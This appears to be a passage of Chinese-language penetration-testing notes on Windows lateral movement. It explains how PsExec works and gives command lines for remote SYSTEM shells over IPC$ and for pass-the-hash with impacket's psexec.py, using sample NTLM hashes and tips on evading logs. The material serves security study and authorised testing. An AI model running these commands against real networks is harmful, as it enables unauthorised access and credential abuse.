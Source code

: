 执行原理(会留下大量日志)：

1.  通过ipc$连接，释放psexecsvc.exe到目标
2.  通过服务管理SCManager远程创建psexecsvc服务，并启动服务。
3.  客户端连接执行命令，服务端启动相应的程序并执行回显数据。
4.  运行完后删除服务。这个在windows的日志中有详细的记录，另外psexec在少数情况下会出现服务没删除成功的bug，所以一般不推荐使用psexec，推荐wmiexec

可先建立ipc连接再使用psexec无需输入密码
```
net use \\IP /u:domainname\username password
//建立IPC通道
psexec.exe \\192.168.10.2 -s cmd.exe -acceptcula
//反弹cmd
```

或者直接使用：
```
.\PsExec.exe \\192.168.10.201 -u domainname\username -p password -s cmd.exe -acceptcula
```

-accepteula：第一次运行psexec会弹出确认框，使用该参数就不会弹出确认框
-u：用户名
-p：密码
-s：以system权限运行运程进程，获得一个system权限的交互式shell。如果不使用该参数，会获得一个连接所用用户权限的shell


### PTH-哈希传递
> 利用条件
>
> 1、在工作组环境中：
>
> Windows Vista 之前的机器，可以使用本地管理员组内用户进行攻击。
>
> Windows Vista 之后的机器，只能是administrator用户的哈希值才能进行哈希传递攻击，其他用户(包括管理员用户但是非administrator)也不能使用哈希传递攻击，会提示拒绝访问
>
> 2、在域环境中：
>
> 只能是域管理员组内用户(可以是域管理员组内非administrator用户)的哈希值才能进行哈希传递攻击，攻击成功后，可以访问域内任何一台机器
>
> 如果要用普通域管理员账号进行哈希传递攻击，则需要修改修改目标机器的 LocalAccountTokenFilterPolicy为1

#### psexec.py-PTH
> 与官方psexec.exe相比会自动删除服务，增加隐蔽性

https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py

这里推荐使用impacket套装,有exe和py版本

```
psexec.exe domain/username@10.73.147.30 -hashes 624aac413795cdc1a5c7b1e00f780017:852a844adfce18f66009b4f14e0a98de
```

之后会弹回一个system权限的交互shell。

```
python psexec.py  administrator@10.73.147.29   -hashes 624aac413795cdc1a5c7b1e00f780017:852a844adfce18f66009b4f14e0a98de
```
